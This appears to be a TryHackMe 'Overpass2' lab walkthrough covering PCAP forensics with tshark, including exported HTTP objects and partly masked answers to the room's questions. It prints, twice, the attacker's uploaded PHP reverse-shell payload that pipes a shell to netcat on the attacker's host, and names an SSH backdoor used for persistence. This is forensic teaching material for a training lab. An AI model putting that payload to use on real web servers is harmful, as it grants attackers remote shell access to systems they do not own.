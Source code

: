 # Overpass2 TryHackme Walkthrough

<p align="center">
  <img width="400" height="400" src="https://github.com/ceortiz33/tryhackme/blob/main/OverPass2/images/overpass2.png">
</p>


## Forensics - Analyze the PCAP
Para esta seccion se utiliza un archivo PCAP que nos entregan como evidencia de un ataque.

```
tshark -r overpass2.pcapng -T fields -e ip.dst | sort | uniq -c
```

```
   1463 140.82.118.4
      2 192.168.170.138
    262 192.168.170.145
   2113 192.168.170.159
      2 192.168.170.2
      1 192.168.170.254
      3 224.0.0.22
      4 224.0.0.251
     14 239.255.255.250
      1 91.189.91.157
```

```
# tshark -r overpass2.pcapng -Y "http"

4 0.000326676 192.168.170.145 → 192.168.170.159 HTTP 484 GET /development/ HTTP/1.1 
    6 0.000860947 192.168.170.159 → 192.168.170.145 HTTP 1078 HTTP/1.1 200 OK  (text/html)
   14 7.915992166 192.168.170.145 → 192.168.170.159 HTTP 1026 POST /development/upload.php HTTP/1.1  (application/x-php)
   16 7.916964256 192.168.170.159 → 192.168.170.145 HTTP 309 HTTP/1.1 200 OK  (text/html)
   18 11.984825193 192.168.170.145 → 192.168.170.159 HTTP 401 GET /development/uploads/ HTTP/1.1 
   19 11.985407246 192.168.170.159 → 192.168.170.145 HTTP 788 HTTP/1.1 200 OK  (text/html)
   27 28.574178738 192.168.170.145 → 192.168.170.159 HTTP 466 GET /development/uploads/payload.php HTTP/1.1 
 3562 229.072082387 192.168.170.159 → 192.168.170.145 HTTP 224 GET /cooctus.png HTTP/1.1 
 3585 229.073323788 192.168.170.145 → 192.168.170.159 HTTP 15280 [TCP Spurious Retransmission] HTTP/1.0 200 OK  (PNG)
 3611 235.053124579 192.168.170.159 → 192.168.170.145 HTTP 223 GET /index.html HTTP/1.1 
 3619 235.053836457 192.168.170.145 → 192.168.170.159 HTTP 881 HTTP/1.0 200 OK  (text/html)
 3876 284.434399160 192.168.170.145 → 192.168.170.159 HTTP 472 GET / HTTP/1.1 
 3878 284.434823231 192.168.170.159 → 192.168.170.145 HTTP 788 HTTP/1.1 200 OK  (text/html)
 3880 284.443819303 192.168.170.145 → 192.168.170.159 HTTP 347 GET /cooctus.png HTTP/1.1 
 3890 284.444614924 192.168.170.159 → 192.168.170.145 HTTP 14119 HTTP/1.1 200 OK  (PNG)
```

```
# tshark -r overpass2.pcapng --export-object http,/home/kali/Documents/tryhackme/overpass2/exported/
# cd exported
# ls

 %2f  'cooctus(1).png'   cooctus.png   development   index.html  'upload(1).php'   upload.php   uploads
```

```
# nano upload.php

----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="fileToUpload"; filename="payload.php"
Content-Type: application/x-php

<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>

-----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="submit"

Upload File
-----------------------------1809049028579987031515260006--


```



### What was the URL of the page they used to upload a reverse shell?

```
/dev********/
```

### What payload did the attacker use to gain access?

```
&lt;?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

### What password did the attacker used to get access?

```
when******************
```

### How did the attacker establish persistence?

```
https://github.com/*********/ssh-backdoor
```

Using the fasttrack wordlist, how many of the system passwords were crackable?

```
*    A value between 2 and 5
```




